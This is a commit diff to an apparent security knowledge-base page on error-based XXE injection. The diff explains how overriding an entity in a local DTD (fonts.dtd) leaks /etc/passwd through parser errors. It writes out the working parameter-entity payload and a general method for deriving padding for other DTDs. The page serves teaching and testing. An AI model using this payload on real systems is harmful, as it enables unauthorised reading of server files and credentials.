

Before and after one commit to HansMolemanPNG/hansmolemanpng.github.io, an MkDocs documentation site: the page built from docs/kb/injection-attacks/xxe.md, in a window 1280 px wide and 1400 px high, scrolled down 36981 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update xxe.md

````diff
--- a/docs/kb/injection-attacks/xxe.md
+++ b/docs/kb/injection-attacks/xxe.md
@@ -1330,7 +1330,7 @@ Error-based feedback indicates successful DTD loading. If we get a different err
 1. `%file` loads the contents of `/etc/passwd` from the local filesystem.
 2. `%eval` creates a new parameter entity `%error` that references a non-existent file path concatenated with `%file` content.
 3. When the parser expands `%error`, it attempts to resolve the invalid path, triggering an error message that includes the contents of `/etc/passwd`.
-4. Note the `<!ELEMENT aa (bb'>` declaration at the end of the override — **this is the structural padding** that makes the payload syntactically valid when assembled with fonts.dtd. The mechanics behind it and how to derive equivalent padding for other DTDs are covered in 4th point of [Dissecting the Structural Padding](### Dissecting the Structural Padding).
+4. Note the `<!ELEMENT aa (bb'>` declaration at the end of the override — **this is the structural padding** that makes the payload syntactically valid when assembled with fonts.dtd. The mechanics behind it and how to derive equivalent padding for other DTDs are covered in section [Dissecting the Structural Padding](### Dissecting the Structural Padding).
 
 - **Step 3:** Trigger Error-Based Exfiltration:
   If the application returns error messages, the response will include something like:
@@ -1343,77 +1343,127 @@ errorMessage: "/nonexistent/root:x:0:0:root:/root:/bin/bash"
 
 The structural padding — `<!ELEMENT aa (bb'>` — is not an arbitrary placeholder. Its exact form is derived from the DTD being exploited, and understanding why it looks the way it does is essential for adapting this technique to other DTDs.
 
+#### The Entity Value and the Role of the Single Quote
+
+Before dissecting the assembly, one detail must be clear: the single quote in `<!ELEMENT aa (bb'>` is **not** part of the injected content. It is the closing delimiter of the entity value in the override declaration:
+
+```xml
+<!ENTITY % expr '...<!ELEMENT aa (bb'>
+```
+
+What the parser expands when it encounters `%expr;` is everything between the two `'` delimiters, without them. The actual value injected into the DTD ends with `(bb`, not `(bb'`. This distinction is critical for understanding why the assembled declarations are syntactically valid.
+
 #### The Injection Point in fonts.dtd
 
-When analysing `fonts.dtd`, the relevant declaration is:
+When analysing `fonts.dtd`, we are looking for the **first relevant use site** of `%expr;` after its declaration — the first `<!ELEMENT>` or `<!ATTLIST>` body where `%expr;` is referenced, because that is where the parser will expand our override. Scanning the DTD in order, the first relevant use site is:
+
+```
+<!ELEMENT test (%expr;)*>
+```
+
+This is the declaration our override breaks open. `matrix` also references `%expr;` but appears later in the file — by the time the parser reaches it, the exfiltration logic has already executed.
+
+#### How the Parser Assembles the Payload
+
+The literal value of `%expr;` — exactly as it appears between the entity delimiters — is:
+
+```
+aaa)>
+    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
+    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
+    &#x25;eval;
+    &#x25;error;
+    <!ELEMENT aa (bb
+```
+
+The following is a conceptual normalisation of this literal after character-reference decoding (`&#x25;` → `%`, `&#x26;` → `&`, `&#x27;` → `'`). It is not the final post-expansion state — `%eval;` and `%error;` are still unresolved references at this stage, declared but not yet expanded:
+
+```
+aaa)>
+    <!ENTITY % file SYSTEM "file:///etc/passwd">
+    <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>">
+    %eval;
+    %error;
+    <!ELEMENT aa (bb
+```
+
+The expansion of `%expr;` initiates a three-phase chain:
+
+- **Phase 1 — `%expr;`** injects the above text into the DTD, including the declarations of `%file` and `%eval`.
+- **Phase 2 — `%eval;`**, when expanded, produces the declaration of `%error`.
+- **Phase 3 — `%error;`**, when expanded, attempts to resolve a URI that concatenates a non-existent path with the contents of `%file;`, triggering an error message that leaks the file contents.
+
+When the parser expands `%expr;` inside the `test` declaration, the assembled DTD becomes:
+
+```xml
+<!ELEMENT test (aaa)>
+<!ENTITY % file SYSTEM "file:///etc/passwd">
+<!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>">
+%eval;
+%error;
+<!ELEMENT aa (bb)*>
+```
+
+Three things happen here:
+
+1. **`<!ELEMENT test (aaa)>`** — the `(` that precedes `%expr;` in the original declaration plus the `aaa)>` from our override produce `(aaa)` — a perfectly balanced, syntactically valid content model. The parser closes the `test` declaration and moves on.
+
+2. **Exfiltration logic** — now sitting outside any enclosing declaration, the parser processes `%file` and `%eval` as independent DTD declarations, then drives the three-phase expansion chain that triggers the error-based exfiltration.
+
+3. **`<!ELEMENT aa (bb)*>`** — the `<!ELEMENT aa (bb` from our padding combines with the remainder of the original `test` declaration (`)*>`) to form a new, syntactically valid element declaration. The `(` opened by the padding is closed by `)`, and `*` is applied as the quantifier. The parentheses are perfectly balanced. Without the padding, the parser would encounter `)*>` with no opening context and reject it as malformed.
+
+#### The matrix Case
+
+`matrix` is worth examining separately because its declaration structure produces a different and more complex assembly. Its declaration is:
 
 ```
 <!ELEMENT matrix ((%expr;), (%expr;), (%expr;), (%expr;))>
 ```
 
-This is the declaration that `%expr;` appears inside of, making it the injection point. When we override `%expr;`, the parser substitutes our value in place of every `%expr;` reference — including the first one in this declaration.
-
-#### How the Parser Assembles the Payload
-
-Stripping out the exfiltration logic and focusing purely on structure, our override of `%expr;` looks like this:
-
-```
-aaa)>
-    [exfiltration logic]
-    <!ELEMENT aa (bb'
-```
-
-When the parser expands the first `%expr;` inside the `matrix` declaration, the assembled result is:
+Here `%expr;` is preceded by a double open parenthesis `((`. When our override is expanded, the assembly becomes:
 
 ```xml
 <!ELEMENT matrix ((aaa)>
-[exfiltration logic]
-<!ELEMENT aa (bb', (%expr;), (%expr;), (%expr;))>
-```
-
-Three things happen here:
-
-1. **`<!ELEMENT matrix ((aaa)>`** — the `aaa)>` from our override closes the `matrix` declaration prematurely. The parser sees a valid (if meaningless) element declaration and moves on.
-
-2. **Exfiltration logic** — now sitting outside any enclosing declaration, the parser processes our injected `%file`, `%eval`, and `%error` entities as independent DTD declarations. This is exactly where we need them.
-
-3. **`<!ELEMENT aa (bb', (%expr;), (%expr;), (%expr;))>`** — the `<!ELEMENT aa (bb'` from our padding combines with the *remainder* of the original `matrix` declaration (`, (%expr;), (%expr;), (%expr;))>`) to form a new, syntactically valid element declaration. Without the padding, the parser would encounter `, (%expr;)...` with no opening context and reject it as malformed.
-
-The padding's job is therefore twofold: introduce a new element name (`aa`) to give the leftover tokens a valid home, and open a content model parenthesis `(` that the remainder of the original declaration closes.
-
-The `bb'` is simply a placeholder element name that precedes the `, (%expr;)` tokens from the original declaration. The single quote has no special meaning inside a DTD content model and is tolerated by the parser.
+<!ENTITY % file SYSTEM "file:///etc/passwd">
+<!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>">
+%eval;
+%error;
+<!ELEMENT aa (bb, (%expr;), (%expr;), (%expr;))>
+```
+
+Two differences stand out compared to the `test` case:
+
+- **`<!ELEMENT matrix ((aaa)>`** has unbalanced parentheses — the outer `(` is never closed. Whether this is tolerated depends entirely on the parser. The `matrix` case is parser-dependent and should not be treated as a clean or portable assembly path.
+
+- **`<!ELEMENT aa (bb, (%expr;), (%expr;), (%expr;))>`** — the padding absorbs a richer remainder. The `, (%expr;), (%expr;), (%expr;))>` tokens from the original declaration attach to `<!ELEMENT aa (bb`, forming a valid content model. The outer `)` of the original declaration closes the `(` opened by the padding, and the parentheses balance correctly.
+
+Prefer `test`-style injection points over `matrix`-style ones when building payloads for unknown or strict parser environments.
 
 #### Deriving the Padding for Other DTDs
 
-The shape of the padding depends entirely on what the remainder of the original declaration looks like after the first `%name;` reference. The two most common cases are:
-
-**Case 1: Rich remainder** — the declaration contains additional tokens after `%name;`, such as further `(%expr;)` references, commas, or nested parentheses. This is the `matrix` case. The remainder `, (%expr;), (%expr;), (%expr;))>` is rich enough that the padding needs to open a content model with a placeholder element to give those tokens a valid home:
-
-```
-<!ELEMENT aa (bb'
-```
-
-The single quote is tolerated by the parser and the remainder closes the parenthesis correctly.
-
-**Case 2: Minimal remainder** — the declaration uses a quantifier like `*`, `+`, or `?` directly after `%name;`, leaving only `)*>`, `)+>`, or `)?>`  as the remainder. This is the case for `test` and `edit` in `fonts.dtd`, both declared as `(%expr;)*`. Here the remainder is simply `)*>`, which closes a single open parenthesis and applies the quantifier. The padding only needs to open a content model with a placeholder:
+The shape of the padding depends entirely on what follows the first `%name;` use site in the target declaration — the remainder that the padding must absorb. The two cases are:
+
+**Case 1: Minimal remainder** — the declaration uses a quantifier (`*`, `+`, or `?`) directly after `%name;`, leaving only `)*>`, `)+>`, or `)?>`  as the remainder. This is the `test` and `edit` case in `fonts.dtd`. The padding opens a content model with a placeholder:
 
 ```
 <!ELEMENT aa (bb
 ```
 
-The assembled result is `<!ELEMENT aa (bb)*>` — a valid element declaration with a `*` quantifier. The remainder in this case is minimal enough that no single quote or additional tokens are needed — the padding is simpler than in Case 1.
+The assembled result is `<!ELEMENT aa (bb)*>` — a valid declaration with perfectly balanced parentheses. Prefer these injection points where possible.
+
+**Case 2: Rich remainder** — the declaration contains additional tokens after `%name;`, such as further `(%expr;)` references, commas, or nested parentheses. This is the `matrix` case. The same padding form applies, but the broken declaration will have unbalanced parentheses. Whether this is accepted depends on the target parser. Test explicitly before relying on this path.
 
 **The general process** for any DTD is:
 
-1. **Find the injection point.** Locate the declaration where `%name;` appears inside a `<!ELEMENT>` or `<!ATTLIST>` body. This is the declaration your override will break open.
-
-2. **Identify what precedes `%name;` in that declaration.** This tells you what your override needs to close. Count open parentheses and determine the minimum tokens needed to terminate the declaration with `>`.
-
-3. **Identify what follows `%name;` in that declaration.** This is the leftover content your padding needs to absorb. Note whether the remainder is rich (multiple tokens) or minimal (just a quantifier and `>`).
-
-4. **Construct the padding.** Open a new `<!ELEMENT name (placeholder` where `placeholder` is any valid XML name. If the remainder is minimal (Case 2), a bare placeholder is sufficient. If the remainder is rich (Case 1), you may need an additional character such as a single quote to separate your placeholder from the incoming tokens.
-
-5. **Verify the assembled output is valid DTD.** Mentally substitute your override into the original declaration and check that every `<!ELEMENT>` and `<!ENTITY>` that results is syntactically complete.
+1. **Find the injection point.** Scan the DTD in order and locate the **first relevant use site** of `%name;` — the first `<!ELEMENT>` or `<!ATTLIST>` body where it is referenced after its declaration. This is where the parser will expand your override and where the exfiltration logic will execute.
+
+2. **Identify what precedes `%name;` in that declaration.** Count open parentheses and determine the minimum tokens needed to close them and terminate the declaration with `>`. This is the opening of your override value.
+
+3. **Identify what follows `%name;` in that declaration.** This is the leftover content your padding must absorb. Determine whether the remainder is minimal (Case 1) or rich (Case 2).
+
+4. **Construct the padding.** Open a new `<!ELEMENT name (placeholder` where `placeholder` is any valid XML name. Remember that the closing delimiter `'` of the entity value is not part of the injected content — the padding ends with `(placeholder`, and the remainder of the original declaration provides the closing `)`.
+
+5. **Verify the assembled output is valid DTD.** Mentally substitute your override into the original declaration and check that every resulting `<!ELEMENT>` and `<!ENTITY>` is syntactically complete. For Case 1 injection points, parentheses should balance cleanly. For Case 2, test against the target parser explicitly.
 
 ### Requirements for Robust Payloads
 
````
